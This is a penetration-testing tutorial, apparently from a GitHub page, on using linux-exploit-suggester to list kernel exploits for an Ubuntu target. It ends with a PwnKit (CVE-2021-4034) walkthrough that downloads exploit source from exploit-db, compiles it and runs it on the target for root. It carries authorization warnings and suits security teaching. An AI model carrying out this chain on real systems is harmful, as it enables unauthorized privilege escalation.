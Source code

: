 # linux-exploit-suggester

The `linux-exploit-suggester` is a critical cybersecurity tool designed to identify potential vulnerabilities in Linux systems by analyzing the system's kernel version, distribution, and architecture. This tool is particularly valuable for cybersecurity professionals aiming to ensure the integrity and security of their Linux-based infrastructure. By automating the detection of known vulnerabilities, `linux-exploit-suggester` significantly enhances the efficiency of security audits and helps in proactively addressing potential threats before they can be exploited by malicious actors.

For C-level executives, the implementation of `linux-exploit-suggester` translates into a robust defensive strategy against cyber threats. By leveraging this tool, organizations can identify and mitigate vulnerabilities that could otherwise be exploited, leading to data breaches, system compromises, and potential financial and reputational damage. This proactive approach to cybersecurity ensures that the organization's Linux systems are fortified against known exploits, thereby reducing the risk of successful attacks and maintaining business continuity.

Furthermore, the use of `linux-exploit-suggester` underscores the organization's commitment to maintaining a secure IT environment. It aligns with best practices in cybersecurity by ensuring that the systems are regularly scanned and patched for vulnerabilities. This not only protects critical assets but also demonstrates to stakeholders, including customers and investors, that the organization prioritizes security and is dedicated to safeguarding sensitive information. The deployment of such advanced tools enhances the overall security posture of the organization, providing peace of mind and reinforcing trust in its technological infrastructure.

### Step 1: Preparing Your Environment

#### Prerequisites
- A Linux system (target) where you have appropriate permissions (root or user with sufficient privileges).
- An attacker system where you will download and execute `linux-exploit-suggester`.

#### Example Setup:
- **Attacker Machine:** Kali Linux
- **Target Machine:** Ubuntu Server

### Step 2: Downloading `linux-exploit-suggester`

1. Open a terminal on your attacker machine.
2. Download the script from the GitHub repository:

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
```

3. Make the script executable:

```bash
chmod +x linux-exploit-suggester.sh
```

### Step 3: Collecting System Information on Target

You need to gather system information from the target machine, which `linux-exploit-suggester` will use to identify potential exploits.

#### On the Target Machine:

1. **Kernel Version:**

```bash
uname -r
```

Example Output:
```
5.4.0-80-generic
```

2. **Distribution Information:**

```bash
lsb_release -a
```

Example Output:
```
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.2 LTS
Release:        20.04
Codename:       focal
```

3. **System Architecture:**

```bash
uname -m
```

Example Output:
```
x86_64
```

### Step 4: Running `linux-exploit-suggester`

1. Transfer the collected information to your attacker machine.

2. Execute `linux-exploit-suggester` on your attacker machine with the collected information:

```bash
./linux-exploit-suggester.sh --kernel 5.4.0-80-generic --os ubuntu --arch x86_64
```

### Step 5: Analyzing the Output

The script will output a list of potential exploits applicable to the system. Each exploit will have a description and a link to more detailed information.

Example Output:
```
########################################
# linux-exploit-suggester 2.1 #
########################################
Kernel version: 5.4.0-80-generic
Operating System: ubuntu
Architecture: x86_64

[+] [CVE-2021-3156] sudo - Heap buffer overflow (vulnerability)
  - https://www.exploit-db.com/exploits/49596
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156

[+] [CVE-2021-4034] polkit - Local privilege escalation (PwnKit)
  - https://www.exploit-db.com/exploits/50938
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034

... (other exploits)
```

### Step 6: Validating and Executing Exploits (Ethical Hacking Only)

1. **Validation:**
   - Before attempting to use an exploit, ensure it is applicable to your target environment.
   - Read through the references provided to understand the exploit.

2. **Execution:**
   - If you have permission, you can attempt to execute the exploit following the guidelines in the references.
   - Always maintain ethical hacking practices and obtain proper authorization before performing any exploit.

### Example: Exploiting CVE-2021-4034 (PwnKit)

1. **Download the exploit code:**

```bash
wget https://www.exploit-db.com/download/50938 -O pwnkit.c
```

2. **Compile the exploit:**

```bash
gcc pwnkit.c -o pwnkit
```

3. **Transfer the compiled exploit to the target machine:**
   - Use `scp`, `ftp`, or any other method.

4. **Execute the exploit on the target machine:**

```bash
./pwnkit
```

### Important Notes:
- Always have explicit permission to perform penetration testing.
- Misuse of exploits can lead to serious legal consequences.
- Use these techniques responsibly and within legal boundaries.
